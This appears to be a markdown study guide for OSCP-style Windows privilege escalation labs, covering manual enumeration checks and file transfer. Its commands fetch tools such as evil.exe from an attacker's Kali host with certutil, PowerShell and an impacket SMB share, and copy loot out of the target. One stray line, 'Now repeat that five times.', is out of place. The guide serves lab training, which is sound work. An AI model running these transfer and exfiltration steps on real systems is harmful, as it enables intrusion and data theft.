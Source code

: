# Windows Enumeration 

I will do **Manual Enumeration** before running WinPEAS. 

Now repeat that five times.

Many OSCP boxes are designed in a way where WinPEAS will not pick the PE up. But still run it once you are done with the checks below.

I assumed you got some kind of shell on a Windows host. If it is a shell from a webshell, try upgrading to a more stable shell by popping one with nc.exe (which you need to transfer from your kali) or a msfvenom payload.

## How to transfer files from Kali to Windows

Navigate to your tools folders and run the following (I like port 80 since it is highly likely that the target box will not have port 80 blocked)

```bash
python -m http.server 80
```

Back on your target box, navigate to a folder that you should have write and execute access.

I like using C:\Users\Public or if you land a shell as a user, you can use that user's directory.

```cmd
certutil.exe -urlcache -split -f http://<kali ip>/<file you want to transfer> <outputfilename>
```

The powershell equivalent is:

```powershell
iwr -uri http://<kali ip>:<port>/<file> -OutFile <outfile name>
```

Another fun way of doing it creating a smbshare on kali and then mounting it. This allows for bidrectional data transfers so you can exfiltrate files out of the target.

```bash
# on your kali
# your share name can be anything you like. If you want the cwd to be the share path, you can just put . I usually set up with a username and password as sometimes Windows does not allow you to mount an authentication-less share

impacket-smbserver -smb2support <share name> <local share path> -username kali -password kali

# example. This creates a share called exfil with the path being the directory where impacket-smbserver is being run

impacket-smbserver -smb2support exfil . -username kali -password kali

```

On your windows machine

```cmd
# mounts your exfil share on y drive and pass in kali:kali credentials

net use y: \\<kali ip>\exfil kali /user:kali
```
now you can copy files to and fro
```cmd
#copy loot.txt from target to your kali

copy loot.txt \\<kali ip>\exfil\loot.txt
```
copy evil.exe from kali to your target
```cmd
copy \\<kali ip>\exfil\evil.exe evil.exe
```


## Checking for the Quick Wins

Check the following:

1) Privileges and groups for your current user

- If SeImpersonatePrivilege is there, thank your lucky stars. Check the system arch with systeminfo and then upload the relevant potato exploit to elevate

- If SeShutDownPrivilege is there, note it down. Your PE path may involve service or scheduled task manipulation.

- Dont worry if it says disabled. The more important thing is that the Privilege is there.

- For groups, you are checking for any non default windows groups. Could be something like HelpDesk. Note things like 'Remote Management Users' (WinRM), 'Remote Desktop Users' (RDP) or the easy win 'Backup Operators'.

- If your user is part of 'BackUp Operators', your user can back up and restore all files on a computer, regardless of the permissions that protect those files. Backup Operators also can log on to and shut down the computer.

```cmd
whoami /priv

whoami /groups
```

2) Environment Variables. Sometimes there are hardcoded stuff like creds in your env so give it a quick check

```cmd
SET
```

3) Systeminfo

- Check the OS version and note the patches. If it looks ancient like Windows 7 or Windows Server 2012 or earlier, a kernel exploit like EternalBlue might be the solution. That said, I wont expect to see this in OSCP though you may see it for PG boxes. 

```cmd
systeminfo
```

4) Check the C:\Users directory. This helps you enumerate users and see (or not see) what access you have to their folders as the current user. 

- Note down any files that look out of place and exfiltrate them if required.

```cmd

cd C:\Users

tree /f /a  #this lists the current path in a recursive manner and also reveals hidden files and directories. This is a GREAT command. use this often

```

5) Now check the C:\ root directory. See anything that is NOT Users,Windows,Program Files, Program Files (x86)? *P.S you can safely ignore output.txt. That seems to be some kind of logging for OffSec boxes*

- If there is, investigate the folder. Are there files inside? Can you write into that folder? Can you edit the files? Can you see the contents of the files?

6) If there is a webserver on the host, can you find the root of that webserver and check for config files? 

7) Are there local services? *You can ignore port 53 if you see it* If there are, note it down. If it looks interesting, transfer a ligolo agent and set it up for you to access the local service. 

```cmd
netstat -ano

# On Powershell

Get-Process <PID of interest from the netstat>

```

Well that is about it. If there is nothing so far, it is likely to be related to services or scheduled tasks or some senstive file buried in the filesystem which winpeas can do for you.